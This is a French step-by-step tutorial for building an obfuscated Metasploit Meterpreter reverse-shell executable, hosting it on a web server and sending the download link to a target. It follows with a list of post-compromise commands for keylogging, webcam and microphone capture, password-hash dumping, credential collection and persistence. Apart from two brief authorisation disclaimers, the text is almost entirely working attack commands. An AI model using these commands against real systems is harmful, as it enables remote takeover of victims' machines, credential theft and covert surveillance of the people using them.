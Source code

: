 ### Étape 1 : **Afficher les exploits disponibles dans Metasploit**
1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Afficher la liste des exploits disponibles** :
   ```bash
   show exploits
   ```
   - Parcourez la liste et choisissez l'exploit souhaité. Pour un simple handler pour reverse shell, on utilise `exploit/multi/handler`.

### Étape 2 : **Créer le payload encodé avec `shikata_ga_nai`**
1. **Afficher les payloads disponibles avec `msfvenom`** :
   ```bash
   msfvenom --list payloads
   ```
   - Choisissez le payload approprié, par exemple `windows/meterpreter/reverse_tcp`.

2. **Créer le payload avec encodage** :
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=<votre_port> -e x86/shikata_ga_nai -i 5 -f exe > payload_encoded.exe
   ```
   - **Explication des options** :
     - `-p windows/meterpreter/reverse_tcp` : Payload pour un reverse shell Meterpreter.
     - `LHOST` : Adresse IP de votre machine attaquante.
     - `LPORT` : Port d'écoute sur votre machine.
     - `-e x86/shikata_ga_nai` : Utilisation de l'encodeur `shikata_ga_nai`.
     - `-i 5` : Nombre d'itérations d'encodage pour augmenter l'obfuscation.
     - `-f exe` : Format du fichier de sortie.

### Étape 3 : **Configurer le listener dans Metasploit**
1. **Sélectionner l'exploit `multi/handler`** :
   ```bash
   use exploit/multi/handler
   ```

2. **Afficher les options disponibles pour l'exploit** :
   ```bash
   show options
   ```

3. **Configurer les options du payload** :
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST <votre_IP>
   set LPORT <votre_port>
   show options
   ```
   - Vérifiez que toutes les options sont correctement configurées.

4. **Lancer l'exploit** :
   ```bash
   exploit
   ```

### Étape 4 : **Partager le payload via un serveur web**
1. **Copier le payload dans le répertoire du serveur web** :
   ```bash
   cp payload_encoded.exe /var/www/html/
   ```

2. **Vérifier le statut du serveur Apache** :
   ```bash
   service apache2 status
   ```
   - Si le serveur n'est pas démarré, utilisez :
     ```bash
     service apache2 start
     ```

3. **Vérifier l'accès au payload** :
   Accédez au lien suivant depuis un navigateur ou utilisez `curl` :
   ```bash
   curl http://<votre_IP>/payload_encoded.exe
   ```

### Étape 5 : **Partager le lien de téléchargement**
Envoyez le lien à la cible pour télécharger le payload :
```text
http://<votre_IP>/payload_encoded.exe
```

### Étape 6 : **Attendre l'exécution et capturer la session Meterpreter**
Une fois que le payload est exécuté sur la machine cible, la session `meterpreter` sera automatiquement ouverte dans Metasploit, permettant l'interaction avec la cible.

### **Note Importante** :
Cette procédure est réservée aux tests de pénétration éthiques et autorisés sur des systèmes pour lesquels vous avez obtenu la permission. Toute utilisation non autorisée est illégale et contraire à l'éthique.






Une fois que le payload a été installé et que la session `meterpreter` est ouverte sur la machine cible, voici une liste des commandes que vous pouvez utiliser dans Metasploit pour interagir avec la session :

### Commandes de base `meterpreter`
1. **`help`** : Affiche toutes les commandes disponibles.
2. **`sysinfo`** : Affiche les informations système de la machine cible.
3. **`getuid`** : Affiche l'utilisateur actuellement utilisé sur la machine cible.
4. **`getpid`** : Affiche le PID (Process ID) du processus `meterpreter`.
5. **`ps`** : Liste les processus en cours sur la machine cible.
6. **`shell`** : Ouvre un shell Windows sur la machine cible.
7. **`exit`** : Ferme la session `meterpreter`.

### Commandes de gestion de fichiers
1. **`ls`** : Liste les fichiers et dossiers du répertoire courant.
2. **`cd <chemin>`** : Change de répertoire.
3. **`pwd`** : Affiche le répertoire courant.
4. **`download <fichier>`** : Télécharge un fichier de la machine cible vers la machine attaquante.
5. **`upload <fichier>`** : Envoie un fichier de la machine attaquante vers la machine cible.
6. **`rm <fichier>`** : Supprime un fichier sur la machine cible.
7. **`mkdir <dossier>`** : Crée un nouveau dossier sur la machine cible.

### Commandes de gestion de processus
1. **`kill <PID>`** : Tue un processus spécifique sur la machine cible.
2. **`migrate <PID>`** : Migre le `meterpreter` vers un autre processus (utile pour la persistance).

### Commandes de contrôle de session
1. **`background`** : Met la session `meterpreter` en arrière-plan.
2. **`sessions`** : Liste toutes les sessions actives.
3. **`sessions -i <ID>`** : Interagit avec une session spécifique.

### Commandes réseau
1. **`portfwd add -l <port_local> -p <port_distant> -r <IP_cible>`** : Ajoute un port forwarding.
2. **`ifconfig`** : Affiche les interfaces réseau de la machine cible.
3. **`route`** : Gère et affiche les routes sur la machine cible.
4. **`arp`** : Affiche la table ARP de la machine cible.

### Commandes de capture et de surveillance
1. **`screenshot`** : Prend une capture d'écran de la machine cible.
2. **`webcam_list`** : Liste les webcams disponibles sur la machine cible.
3. **`webcam_snap`** : Prend une photo avec la webcam.
4. **`record_mic`** : Enregistre le micro pendant une durée définie.
5. **`keyscan_start`** : Démarre l'enregistrement des frappes de touches (keylogging).
6. **`keyscan_dump`** : Affiche les frappes enregistrées.
7. **`keyscan_stop`** : Arrête l'enregistrement des frappes.

### Commandes de persistance et d'exploitation avancée
1. **`run persistence -h`** : Affiche les options pour configurer la persistance sur la machine cible.
2. **`run getsystem`** : Tente de passer en tant qu'utilisateur `SYSTEM`.
3. **`hashdump`** : Extrait les hachages de mots de passe (nécessite des privilèges élevés).
4. **`run post/windows/gather/credentials/credentials_collector`** : Collecte les informations d'identification de la machine cible.

### Commandes de gestion de l'écran et de la webcam
1. **`webcam_stream`** : Diffuse un flux vidéo en direct de la webcam de la cible.
2. **`screenshare`** : Partage l'écran en temps réel.

### **Conseil de Sécurité**
Ces commandes doivent être utilisées dans le cadre de tests de pénétration éthiques, et uniquement avec l'autorisation explicite des propriétaires des systèmes ciblés. Toute utilisation non autorisée de ces techniques est illégale et contraire à l'éthique.
